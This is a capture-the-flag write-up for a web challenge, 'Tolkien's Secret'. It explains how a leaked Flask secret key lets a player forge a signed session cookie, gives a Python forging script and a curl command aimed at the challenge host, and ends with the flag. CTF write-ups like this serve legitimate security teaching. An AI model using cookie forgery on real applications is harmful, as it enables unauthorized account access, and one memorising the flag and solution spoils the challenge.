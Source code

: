 # Tolkien's Secret

> Points: 150

> Category: Web

## Description

One Flag to rule them all, One Flag to find them,

One Flag to bring them all, and in the darknes bind them.

Note: I want to make it abundantly clear that you will not need to use any tools that make automated requests (bruteforce, dirb, etc.) to solve this.

## Attachments

https://dismalwindingcircles.samwise74.repl.co/

## Solution

In order to get the flag, we need to set the cookie on the `/count` route equal to 356047916789627241981541. The value of the cookie increments by one each time you revisit the page, but obviously we're not going to reload the page 356047916789627241981541 times.

This is how a flask signed cookie is structured

![flaskCookieParts](https://miro.medium.com/max/1000/1*EBExwdWx4ma2CQBgsUfHwA.png)

Kinda looks similar to a jwt. Just like a jwt, we can change the payload (session data) since it's just a base64 encoded string.

The cryptographic hash is what makes the cookie secure. It's a SHA1 hash that's based off the session data, timestamp, and the secret key.

We already know the secret key is because it's right at the top of the website. SECRETKEY = **KeepItSecret**.

Below is a python script that forges flask session cookies.

```py
from flask.sessions import SecureCookieSessionInterface

payload = { 'count': 356047916789627241981541 }
secret = "KeepItSecret"

class FakeApp():
    def __init__(self, secret_key):
        self.secret_key = secret_key

def encode(payload, secret):
    app = FakeApp(secret)
    return SecureCookieSessionInterface().get_signing_serializer(app).dumps(payload)

print(encode(payload, secret))
```

Running the program outputs: `eyJjb3VudCI6MzU2MDQ3OTE2Nzg5NjI3MjQxOTgxNTQxfQ.YFvcOQ.SYZya8a592erbFrCj3qV7npM448`

Send the cookie to the `/count` route and it will give the flag.

```sh
$ curl -Lv -b session=eyJjb3VudCI6MzU2MDQ3OTE2Nzg5NjI3MjQxOTgxNTQxfQ.YFvcOQ.SYZya8a592erbFrCj3qV7npM448 https://dismalwindingcircles.samwise74.repl.co/count
```

### Flag

> ictf{Come_on_Mr_Frodo_I_cant_carry_it_for_you_but_I_can_carry_you!}
